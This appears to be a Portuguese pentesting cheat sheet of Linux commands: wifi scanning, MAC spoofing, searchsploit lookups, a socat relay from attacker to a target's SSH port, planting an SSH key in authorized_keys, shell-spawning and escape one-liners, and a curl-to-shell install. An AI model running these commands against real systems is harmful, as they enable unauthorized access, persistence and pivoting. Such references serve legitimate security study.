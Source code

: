 # Comandos Linux
-------
- script -a -f pentest.log
- exit
---------
# Wifi no terminal

- sudo iwconfig  // dispositivos wifi
- sudo iwlist wlan0 scan  // listando redes wifi 
- sudo iwlist wllan0 scan | grep ESSID  // listando redes wifi, filtrando apenas nomes
- nmcli d wifi connect SSIDredeWifi password suasenha // conecta na rede wifi

- macchanger -r eth0
- macchanger -p eth0
- macchanger -m mac eth0

- ipcalc 192.168.1.1/255.255.255.0
-------------
- searchsploit "ipfire" --exclude="algum|outra"
- searchsploit -e "ipfire"
- searchsploit "ipfire" --id
- searchsploit "ipfire" --id -m 44433
- searchsploit "ipfire" -m 44433.py
-------------
- socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr    #ouvindo atacante
- socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22                      #maquina alvo
-----------
- ssh-keygen -f minhachave #criando chave publica ssh
- mkdir ~www-data
- mkdir ~/.ssh/
- touch ~/.ssh/authorized_keys
- echo "key ssh-rsa" > ~/.ssh/authorized_keys
- -----------------
# Shell Spawning

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- (From within IRB)
- exec "/bin/sh"
- (From within vi)
- :!bash
- (From within vi)
- :set shell=/bin/bash:shell
- (From within nmap)
- !she
---------------
- curl -s -I dominio.com
- curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk dominio.com
- curl -L https://npmjs.org/install.sh | sh
- 
